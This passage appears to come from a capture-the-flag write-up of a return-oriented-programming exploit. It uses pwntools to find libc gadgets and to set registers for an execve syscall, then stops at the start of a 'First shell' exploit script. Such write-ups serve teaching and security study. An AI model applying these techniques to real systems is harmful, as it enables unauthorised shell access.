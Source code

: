 But `5f` is valid machine code for `pop rdi`. You can play on the [online disassembler](https://defuse.ca/online-x86-assembler.htm).

Unfortunately, we can't find anything for `rdx` or `rax`.

#### Libc

Luckily, we have linked libraries which contain a huge wealth of gadgets, such as `libc` (see the output of `vmmap` above).

```
$ ldd ./main
        linux-vdso.so.1 =>  (0x00007ffff7ffd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7c01000)
        /lib64/ld-linux-x86-64.so.2 (0x0000555555554000)
$ readlink -f /lib/x86_64-linux-gnu/libc.so.6
/lib/x86_64-linux-gnu/libc-2.23.so
```

The CTF environment used libc-2.28 which I downloaded from the server, but my local machine uses a very old version (2.23). The exact addresses will differ based on libc version, but you should be able to find equivalent gadgets.

```
>>> from pwn import *
>>> rop_libc = ROP(ELF("libc-2.28.so"))
[*] '/blah/libc-2.28.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 199 cached gadgets for 'libc-2.28.so'
>>> [g for g in rop_libc.search_iter(regs=["rax"]) if len(g.insns) == 2]
[Gadget(0x3a638, ['pop rax', 'ret'], ['rax'], 0x8)]
```

That's more like it. Now we can find gadgets to set all the registers we want and print out the stack layout:

```
>>> rop_libc.setRegisters({"rax": 59, "rdx": 0, "rdi": 123, "rsi": 567})
[(239160, Gadget(0x3a638, ['pop rax', 'ret'], ['rax'], 0x8)),
 (59, 'rax'),
 (146015, Gadget(0x23a5f, ['pop rdi', 'ret'], ['rdi'], 0x8)),
 (123, 'rdi'),
 (1075017,
  Gadget(0x106749, ['pop rdx', 'pop rsi', 'ret'], ['rdx', 'rsi'], 0xc)),
 (0, 'rdx'),
 (567, 'rsi')]
```

### First shell

```python
import struct


def push_uint64(i):
    return struct.pack("<BQ", 5, i)


def pop_print():
    return b'\x0e'


def write(*ops):
    code = b"".join(ops)
```